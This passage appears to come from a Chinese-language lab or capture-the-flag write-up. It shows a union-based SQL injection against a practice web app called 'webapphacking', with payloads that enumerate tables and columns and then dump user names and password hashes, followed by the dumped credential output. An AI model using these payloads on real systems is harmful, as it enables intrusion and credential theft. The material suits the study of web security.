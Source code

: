 之后爆这个库的表名

```bash
-1' union select group_concat(table_name),2,3 from information_schema.tables where table_schema='webapphacking'#
```

[![](assets/1701678867-d4586baae6a67016ded0af0746c428bf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203327-543d53e4-8dea-1.png)

爆字段名

```bash
-1' union select group_concat(column_name),2,3 from information_schema.columns where table_schema='webapphacking' and table_name='users'#
```

[![](assets/1701678867-a76638423b7d9a5409d862cf0c290637.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203331-5727bc3e-8dea-1.png)

爆内容

```bash
-1' union select group_concat(user,0x5c,pasword),2,3 from webapphacking.users#
```

得到

```bash
user1\5d41402abc4b2a76b9719d911017c592
user2\6269c4f71a55b24bad0f0267d9be5508
user3\0f359740bd1cda994f8b55330c86d845
test\05a671c66aefea124cc08b76ea6d30bb
superadmin\2386acb2cf356944177746fc92523983
test1\05a671c66aefea124cc08b76ea6d30bb
admin\e10adc3949ba59abbe56e057f20f883e
```
